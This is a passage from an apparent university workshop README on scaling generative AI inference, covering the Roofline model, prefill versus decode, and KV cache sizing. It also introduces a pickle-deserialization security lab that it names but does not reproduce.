










# Building and Scaling Generative AI: From Silicon Limits to Supply Chain Exploits

<div align="center">
  
  
  
  
  
  
</div>

This repository contains the hands-on laboratory materials and codebase for the **Building and Scaling Generative AI: From Silicon Limits to Supply Chain Exploits** workshop delivered at Deakin University for M.Tech and MSc students specializing in AI/ML and Computer Science and Engineering (CSE — Security).

The material begins with foundational transformer execution mechanics and progresses through hardware memory-bandwidth constraints, runtime Key-Value (KV) cache management, model supply chain deserialization risks, and distributed Kubernetes (K8s) inference routing. To avoid dependencies on commercial cloud accounts or dedicated GPU clusters, all laboratory exercises use open-source Python tools that run locally on standard CPU hardware. While the code modules are written in Python using [PyTorch](https://pytorch.org/) and [SafeTensors](https://huggingface.co/docs/safetensors/index), the underlying systems and security concepts apply across production deep learning runtimes (including C++, Rust, and Go serving engines).

---

## 🌐 The Production Generative AI Engineering Landscape

Building, operating, and scaling Generative AI applications in production spans an extensive superset of systems, machine learning, application, and security engineering disciplines across the end-to-end lifecycle:

- **Hardware Virtualization, Accelerator Sharing, and Interconnects:** Multi-Instance GPU (MIG) hardware partitioning, GPU time-slicing, NVIDIA Multi-Process Service (MPS), fractional GPU allocation, Kubernetes Dynamic Resource Allocation (DRA), heterogeneous accelerator scheduling across GPUs, Tensor Processing Units (TPUs), Neural Processing Units (NPUs), high-bandwidth inter-node fabrics (NVLink, InfiniBand Remote Direct Memory Access [RDMA]), and cold-start weight streaming from object or Non-Volatile Memory Express (NVMe) storage [[2]](#ref-2), [[21]](#ref-21).
- **Model Compression, Pruning, Quantization, and Alignment:** Structured and unstructured weight pruning (such as 2:4 structured sparsity), Post-Training Quantization (PTQ — `FP8`, `INT8`, `INT4`, Activation-aware Weight Quantization [AWQ], GPTQ) and Quantization-Aware Training (QAT), teacher-to-student knowledge distillation, sparse Mixture-of-Experts (MoE) routing, Supervised Fine-Tuning (SFT), Parameter-Efficient Fine-Tuning (PEFT / Low-Rank Adaptation [LoRA] [[18]](#ref-18) / QLoRA), and alignment via Reinforcement Learning from Human Feedback (RLHF) or Direct Preference Optimization (DPO) [[5]](#ref-5).
- **Distributed Computing, Parallel Training, and Multi-Node Inference Topologies:** Distributed Data Parallelism (DDP), Fully Sharded Data Parallelism (FSDP), and Zero Redundancy Optimizer (ZeRO Stages 1–3 sharding optimizer states, gradients, and parameters), multi-dimensional parallelism (intra-layer Tensor Parallelism, inter-layer Pipeline Parallelism with micro-batch scheduling, Sequence and Ring-Attention Context Parallelism, and MoE Expert Parallelism) [[4]](#ref-4), [[5]](#ref-5), collective communication primitives (`AllReduce`, `AllGather`, `ReduceScatter`, `AllToAll` via NVIDIA Collective Communications Library [NCCL] over GPUDirect RDMA / RDMA over Converged Ethernet [RoCEv2] / InfiniBand), activation checkpointing, fault-tolerant elastic training with asynchronous checkpointing, and disaggregated prefill-decode inference pools transferring KV blocks across nodes.
- **Inference Runtime and Kernel-Level Systems Optimization:** Processor memory hierarchy management (SRAM vs. DRAM/HBM) [[1]](#ref-1), [[2]](#ref-2), operator fusion and hardware-aware attention kernels (such as FlashAttention and custom CUDA/Triton kernels), continuous iteration-level batching, chunked prefill, non-contiguous Key-Value (KV) cache block paging (**PagedAttention** [[6]](#ref-6)), **Automatic Prefix Caching (APC / RadixAttention)** [[7]](#ref-7), KV cache quantization and hierarchical offloading (HBM to host CPU DRAM and NVMe), and speculative decoding [[4]](#ref-4).
- **Application Architecture Nuances and Agentic Orchestration:** Low-latency token streaming protocols (Server-Sent Events [SSE], WebSockets, gRPC streams) vs. asynchronous event-driven batch queues, constrained decoding for deterministic structured outputs (grammar- and JSON-schema-enforced state machines), semantic response caching, model cascading and router networks (routing simpler queries to smaller models), multi-turn state management, and agentic execution graphs (ReAct loops, plan-and-execute workflows, multi-agent coordination, and standardized tool interfaces such as the Model Context Protocol [MCP]) [[5]](#ref-5), [[7]](#ref-7).
- **Data Grounding, Retrieval Pipelines, and Memory Systems:** Retrieval-Augmented Generation (RAG) ingestion pipelines, semantic and layout-aware document chunking, dense vector embeddings, hybrid lexical-semantic search (BM25 + vector similarity), cross-encoder reranking, graph-based knowledge retrieval (GraphRAG), and tiered short-term working memory vs. long-term episodic and semantic memory stores [[5]](#ref-5).
- **Distributed Cluster Scheduling, Traffic Routing, and Resiliency:** Prefix- and adapter-aware Layer 7 (L7) load balancing (**Kubernetes Gateway API Inference Extension** [[17]](#ref-17)), multi-tenant dynamic adapter pooling (**S-LoRA** [[19]](#ref-19)), topology-aware gang scheduling (`LeaderWorkerSet`, `Kueue`, Ray clusters), autoscaling driven by inference queue depth and KV cache saturation rather than CPU utilization, token-per-minute (TPM) rate limiting, circuit breaking, and multi-region failover.
- **Supply Chain Integrity, Governance, and Runtime Security:** Cryptographic model signing, provenance attestations, and AI Bills of Materials (AIBOM) (**Sigstore Cosign** [[15]](#ref-15), **SLSA** [[16]](#ref-16)), non-executable weight serialization (**SafeTensors** [[14]](#ref-14) vs. legacy `pickle` deserialization exploits [[12]](#ref-12), [[13]](#ref-13), [[22]](#ref-22), [[23]](#ref-23)), training and fine-tuning data poisoning defenses (**OWASP LLM04** [[10]](#ref-10)), input/output guardrails against direct and indirect prompt injection (**OWASP LLM01** [[10]](#ref-10), [[11]](#ref-11)), Personally Identifiable Information (PII) redaction and Data Loss Prevention (DLP), least-privilege sandboxed tool execution with network egress controls (**OWASP LLM06** [[10]](#ref-10)), and confidential computing via Trusted Execution Environments (TEEs).
- **LLMOps / MLOps Feedback Loops, Evaluation, and Observability:** Versioned model and prompt registries, automated Continuous Integration and Continuous Deployment (CI/CD) evaluation gates, shadow traffic and canary rollouts, online A/B experimentation, explicit Human-in-the-Loop (HITL) and implicit production telemetry feedback loops, data/concept drift detection, continuous fine-tuning and alignment data flywheels, deterministic and LLM-as-a-Judge evaluation suites, OpenTelemetry distributed tracing, and latency Service Level Objectives (SLOs) across Time-To-First-Token (TTFT) and Time-Per-Output-Token (TPOT).
- **FinOps, GreenOps, and Sustainable AI Compute:** Per-tenant token and accelerator cost attribution (FinOps), scale-to-zero and spot/preemptible instance orchestration for batch workloads, accelerator power telemetry and joules-per-token energy accounting (via NVIDIA Data Center GPU Manager [DCGM] and Extended Berkeley Packet Filter [eBPF] exporters such as Kepler), Dynamic Voltage and Frequency Scaling (DVFS) and GPU power capping, carbon-intensity-aware workload placement across grid regions and time windows, and eliminating redundant prefill Floating-Point Operations (FLOPs) via KV prefix caching and model right-sizing to reduce data-center energy consumption and carbon footprint (GreenOps).

While a production Generative AI platform must account for this entire superset of engineering considerations, a 60-minute hands-on session cannot cover every layer; therefore, this workshop selects a focused subset—specifically **hardware memory-bandwidth limits**, **runtime KV prefix caching**, **model checkpoint deserialization security**, and **cache-aware Kubernetes routing**—as detailed in the core objectives below.

---

## 🎯 Core Objectives

Moving Generative AI workloads from isolated prototypes to multi-user production environments surfaces two recurring engineering problems: **memory-bandwidth saturation during autoregressive token generation** [[1]](#ref-1), [[2]](#ref-2), and **arbitrary code execution risks when loading third-party model checkpoints** [[10]](#ref-10), [[13]](#ref-13). This session covers the following technical areas:

- **Autoregressive Hardware Constraints:** Examine how transformer inference shifts from a compute-bound parallel **Prefill** stage to a memory-bandwidth-bound sequential **Decode** stage under the Roofline performance model [[1]](#ref-1), [[4]](#ref-4).
- **Context Prefix Reuse:** Implement and measure **Automatic Prefix Caching (APC)** over a multi-head self-attention Key-Value (KV) cache to avoid repeating prefill Floating-Point Operations (FLOPs) across multi-turn requests [[6]](#ref-6), [[7]](#ref-7).
- **Model Deserialization Risks:** Demonstrate how legacy PyTorch checkpoints (`.bin` and `.pt`) rely on Python's `pickle` VM [[12]](#ref-12), [[22]](#ref-22), allowing **Remote Code Execution (RCE)** (tracked under Common Weakness Enumeration [CWE-502] [[13]](#ref-13) and observed in public model hub supply chain incidents [[23]](#ref-23), [[24]](#ref-24)) during `torch.load()` calls.
- **Non-Executable Tensor Serialization:** Mitigate deserialization vulnerabilities by converting model weights to the **SafeTensors** format [[14]](#ref-14), inspecting its JSON header byte offsets, and loading tensors via operating system memory mapping (`mmap`).
- **Distributed Cluster Routing and Multi-Tenancy:** Examine how prefix-cache-aware Layer 7 (L7) routing via the **Kubernetes Gateway API Inference Extension** [[17]](#ref-17) and dynamic **Low-Rank Adaptation (LoRA)** [[18]](#ref-18), [[19]](#ref-19) preserve KV cache locality across multi-replica clusters.

---

## 📅 Workshop Agenda (60 Minutes)

| Time | Phase | Focus | Hands-on Activity |
| :--- | :--- | :--- | :--- |
| **00:00 – 00:10** | Part 1: Hardware Constraints | Autoregressive Loops, Von Neumann Memory Hierarchy, and the Roofline Model [[1]](#ref-1), [[2]](#ref-2) | Initialize `.venv` via [`setup.sh`](setup.sh) or [`setup.ps1`](setup.ps1) and review Prefill vs. Decode arithmetic intensity |
| **00:10 – 00:30** | Part 2: Runtime Memory Management | Key-Value (KV) Cache Sizing, PagedAttention [[6]](#ref-6), and Automatic Prefix Caching (APC) [[7]](#ref-7) | **Lab 1:** Run [`benchmark_prefix_caching.py`](demo/01-inference-scaling/benchmark_prefix_caching.py) to compare Time-To-First-Token (TTFT) latency |
| **00:30 – 00:45** | Part 3: Supply Chain Security | Token Bus Confusion [[10]](#ref-10), [[11]](#ref-11) and Pickle Deserialization (CWE-502) [[13]](#ref-13), [[23]](#ref-23) vs. SafeTensors [[14]](#ref-14) | **Lab 2:** Run [`exploit_pickle.py`](demo/02-supply-chain-security/exploit_pickle.py) and [`harden_safetensors.py`](demo/02-supply-chain-security/harden_safetensors.py) |
| **00:45 – 00:50** | Part 4: Cluster Routing | Prefix-Aware Load Balancing [[17]](#ref-17) and Dynamic Low-Rank Adaptation (LoRA) Multi-Tenancy [[18]](#ref-18), [[19]](#ref-19) | Review the Kubernetes Gateway API Inference Extension routing flow |
| **00:50 – 01:00** | Teardown and Q&A | Artifact Cleanup and Operational Trade-Offs | Run [`cleanup.sh`](cleanup.sh) or [`cleanup.ps1`](cleanup.ps1) and open Q&A |

---

## 🤖 Traditional MLOps vs. Stateless LLM Serving vs. Stateful Inference Scaling

| Dimension | Traditional Machine Learning Operations (MLOps) | Naive Stateless Large Language Model (LLM) Serving | Stateful Production Inference Scaling |
| :--- | :--- | :--- | :--- |
| **Execution Paradigm** | Deterministic (where identical inputs yield fixed-shape outputs), single-pass forward evaluation (such as single-pass image classification or tabular regression) | Autoregressive (where output tokens are generated sequentially one at a time), recomputing full prompt attention on every turn without cross-request state [[3]](#ref-3), [[5]](#ref-5) | Stateful, multi-turn autoregressive loops retaining shared Key-Value (KV) projection blocks across requests via Radix-tree prefix caches [[6]](#ref-6), [[7]](#ref-7) |
| **Primary Hardware Bottleneck** | Compute-bound (limited by accelerator Floating-Point Operations per Second [FLOP/s] during dense matrix multiplications) | Compute-bound during repeated prompt prefill; memory-bandwidth-bound during token-by-token decoding [[1]](#ref-1), [[2]](#ref-2) | Memory-capacity and memory-bandwidth managed via non-contiguous block paging (**PagedAttention** [[6]](#ref-6)) and prefix reuse |
| **Cluster Routing Topology** | Stateless Layer 4 (L4) or Layer 7 (L7) round-robin load balancing (any replica processes any request with comparable latency) | Round-robin load balancing causing frequent cache misses across cluster pods | Prefix-cache-aware L7 routing [[17]](#ref-17) directing requests with matching system prefixes to replicas holding warm KV blocks |
| **Artifact Ingestion Security** | Serialized model objects (such as `joblib`, `pickle`, or legacy `.pt` archives) loaded from internal pipelines | Third-party checkpoints loaded from public model hubs via `torch.load()`, exposing the host process to arbitrary code execution [[12]](#ref-12), [[13]](#ref-13), [[23]](#ref-23) | Non-executable binary layouts (**SafeTensors** [[14]](#ref-14)) mapped from disk into virtual memory pages via `mmap()` |

---

## 📖 Architectural Overview

This section walks through the technical concepts step by step, starting from basic transformer token generation and moving into hardware memory hierarchy constraints, Key-Value (KV) cache management, supply chain serialization formats, and cluster-level request routing.



### 1. From Single-Pass Classifiers to Autoregressive Sequence Generation

In classical predictive machine learning, inference is a **stateless, single-pass operation**. When an image classifier processes a 224x224 pixel image, the input tensor passes through the network's layers once to produce a fixed-length probability vector, and all intermediate activations are discarded once the response is returned.

Generative Large Language Models (LLMs) built on the Transformer architecture [[3]](#ref-3) (composed of Multi-Head Self-Attention and Multi-Layer Perceptron [MLP] feed-forward blocks) use an iterative process called **autoregressive generation** [[5]](#ref-5):

1. **Tokenization and Embedding:** Input text (for example, `"Explain quantum computing"`) is split into sub-word units called **tokens**. Each token integer identifier (ID) is mapped through an embedding lookup table (`embed_tokens.weight`) to a dense numerical vector (referred to as `hidden_dim`, such as 512 or 4,096 floating-point numbers).
2. **Sequential Feedback Loop:** Because each new token depends on all the tokens that came before it, the model does not emit an entire 100-token response in a single pass. Instead, it runs 100 sequential forward passes: each step predicts **one next token**, appends that token to the sequence, and feeds the updated sequence into the next iteration.



---

### 2. Hardware Memory Hierarchy and the Roofline Performance Model

Because an autoregressive model runs a forward pass through its parameters for every generated token, inference latency depends heavily on how quickly weights and activations move between memory and compute units.

#### The Hardware Memory Hierarchy

Modern processors—including Server CPUs, NVIDIA GPUs, and Google Cloud Tensor Processing Units (TPUs)—separate compute cores from main memory across an off-chip bus [[1]](#ref-1), [[2]](#ref-2):

1. **On-Chip Compute Units and Static Random Access Memory (SRAM):** Arithmetic Logic Units (ALUs), Matrix Multiply Units (MXUs), and Tensor Cores execute floating-point math using on-chip SRAM registers and Level 1 / Level 2 (L1/L2) caches, which provide multi-terabyte-per-second on-chip bandwidth but hold only megabytes of data [[2]](#ref-2), [[4]](#ref-4) (for example, 40 MB of on-chip L2 cache and 192 KB of shared memory/L1 cache per Streaming Multiprocessor [SM] across 108 SMs on an NVIDIA A100 GPU [[21]](#ref-21)).
2. **Off-Chip Dynamic Random Access Memory (DRAM / HBM):** Model weight matrices (gigabytes in size) and sequence state buffers are stored in off-chip system RAM (Double Data Rate [DDR4/DDR5] on CPUs) or stacked **High-Bandwidth Memory (HBM)** on data-center accelerators (for example, 2,039 GB/s of HBM2e bandwidth on an NVIDIA A100 80 GB SXM GPU [[5]](#ref-5), [[21]](#ref-21)).

#### The Roofline Model and Arithmetic Intensity

Formulated by Williams, Waterman, and Patterson [[1]](#ref-1), the **Roofline Model** relates a processor's peak compute throughput (`FLOP/s`) to its memory bandwidth (`Bytes/s`) using **Arithmetic Intensity**—the number of Floating-Point Operations (FLOPs) performed per byte of data transferred across the memory bus (`FLOP/byte`). Every processor has a hardware balance point (ridge point) determined by dividing its peak compute throughput by its memory bandwidth [[1]](#ref-1), [[5]](#ref-5).

For example, an NVIDIA A100 (80 GB SXM) GPU provides 312 TFLOP/s of half-precision 16-bit Floating-Point (`FP16` / Brain Floating-Point [`BF16`]) Tensor Core compute throughput and 2,039 GB/s of HBM2e memory bandwidth [[5]](#ref-5), [[21]](#ref-21), requiring roughly 140–150 FLOPs of math for every byte read from HBM to fully saturate its compute cores:

- **Memory-Bandwidth-Bound Regime (Below the Ridge Point):** When an operation performs relatively few calculations per byte fetched from DRAM/HBM, compute units sit idle waiting for data transfers across the memory bus. Adding more compute FLOP/s without increasing memory bandwidth does not reduce latency.
- **Compute-Bound Regime (Above the Ridge Point):** When an operation performs enough calculations per fetched byte to keep the compute units continuously busy, memory transfer time is hidden and overall speed is limited by the processor's compute throughput.



#### Phase 1 (Prefill) vs. Phase 2 (Decode)

An LLM inference request operates in both regimes at different points in its lifecycle [[2]](#ref-2), [[4]](#ref-4), [[5]](#ref-5). Applying the Roofline model [[1]](#ref-1) to a 7-Billion parameter LLaMA model [[25]](#ref-25) (32 layers, 32 attention heads, hidden dimension 4,096) running in `FP16` (2 bytes per parameter) with a batch size of 8 and a prompt length of 1,024 tokens on an **NVIDIA A100 (80 GB) GPU** [[21]](#ref-21) illustrates the transition between these two stages:

1. **Phase 1 — The Prefill Stage (Time-To-First-Token [TTFT]):**
   When a prompt arrives, the runtime loads each layer's weight matrices from DRAM/HBM into SRAM once and multiplies them across all input token vectors in parallel using **General Matrix Multiply (GEMM)** kernels. Because each weight matrix read is reused across all 8,192 prompt tokens in the batch (8 requests x 1,024 tokens), linear projections perform over 1,600 FLOPs per byte transferred—well above the A100's ~140–150 FLOP/byte ridge point—making the prefill stage **compute-bound**.
2. **Phase 2 — The Decode Stage (Time-Per-Output-Token [TPOT]):**
   After the first token is emitted, subsequent tokens are generated sequentially one at a time. Multiplying a weight matrix by single-token vectors reduces the operation to **General Matrix-Vector Multiply (GEMV)**. Because each decode step processes only 1 new token per request (8 tokens across the batch), reading `FP16` weights (2 bytes per parameter) for 8 multiply-add operations (16 FLOPs per parameter) yields an arithmetic intensity of **roughly 8 FLOP/byte**—far below the A100's ridge point. Because the runtime must read all model weights and historical attention state from HBM at every step while doing very little math per byte transferred, the decode stage is **memory-bandwidth-bound**.



> [!TIP]
> **Production Engineering Tip (Hardware Sizing by Workload Profile):** When selecting hardware for serving clusters, examine where the workload spends most of its time on the Roofline curve [[1]](#ref-1), [[4]](#ref-4), [[5]](#ref-5). Interactive chat services with small batch sizes (1 to 8 concurrent requests) are typically constrained by memory bandwidth during decoding, so accelerators with higher HBM bandwidth reduce per-token latency. Conversely, batch document summarization workloads with long prompts and short outputs spend more time in the compute-bound prefill stage.

---

### 3. Self-Attention, Key-Value (KV) Cache Sizing, PagedAttention, and Prefix Caching

#### Why the Key-Value (KV) Cache Exists

Within each Transformer layer, **Scaled Dot-Product Self-Attention** [[3]](#ref-3) projects each input token vector into three representations using learned weight matrices (`q_proj`, `k_proj`, and `v_proj`):
- **Query (`Q`):** Represents what the current token is looking for in the context.
- **Key (`K`):** Represents the index label of each token in the sequence.
- **Value (`V`):** Represents the contextual content carried by each token.

To predict the next token, the attention layer compares the current token's **Query (`Q`)** against the **Keys (`K`)** of all preceding tokens, normalizes the resulting attention scores via `softmax`, and computes a weighted sum of their **Values (`V`)** [[3]](#ref-3).

Because causal masking prevents earlier tokens from looking at future tokens, the **Key (`K`)** and **Value (`V`)** vectors for already-processed tokens never change during later decode steps. Recomputing `K` and `V` for the entire history at every decode step would waste substantial compute. Instead, serving runtimes store past `K` and `V` tensors in a **Key-Value (KV) Cache** in GPU HBM (or host DRAM) [[4]](#ref-4), [[5]](#ref-5). At each new step, the model computes `Q`, `K`, and `V` only for the newly arrived token(s), appends the new `K` and `V` to the cached tensors (`torch.cat([cached_k, k], dim=2)`), and runs attention against the combined history.



#### How Key-Value (KV) Cache Footprint Scales in Memory

Although caching `K` and `V` avoids redundant compute, it trades compute for memory capacity [[4]](#ref-4), [[6]](#ref-6). For every token in an active request, the runtime must store both a **Key** vector and a **Value** vector across **every transformer layer** and **every KV attention head**:

- **Per-Token Memory Factors:** Two tensors (`Key` + `Value`) multiplied by the number of layers (`num_layers`), the number of KV heads (`num_heads`), the dimension per head (`head_dim`), and the byte size of the floating-point format (2 bytes for `FP16`/`BF16`, or 4 bytes for `FP32`).
- **Concrete Example (LLaMA-7B in `FP16`):** A 7-Billion parameter model [[25]](#ref-25) (32 layers, 32 heads, head dimension 128, 2 bytes per `FP16` value) requires **524,288 bytes (0.5 MiB) of KV cache per token**. Across a batch of **16 concurrent requests** with **4,096 tokens** each, the KV cache consumes **32 GiB (34.4 GB) of GPU HBM**—more than twice the ~14 GB of HBM required to hold the 7B model weights themselves [[6]](#ref-6).

#### PagedAttention and Automatic Prefix Caching (APC)

Because a sequence's final output length is unknown ahead of time, early serving systems pre-allocated contiguous memory buffers sized to the model's maximum context window (e.g., 4,096 tokens) for each active request. Kwon et al. [[6]](#ref-6) showed that contiguous pre-allocation leaves **60% to 80% of allocated KV memory unused** due to reserved slots for future tokens, internal fragmentation when generation finishes early, and external fragmentation in the memory allocator.

Production serving engines address KV memory efficiency and repeated prefill latency through three mechanisms:

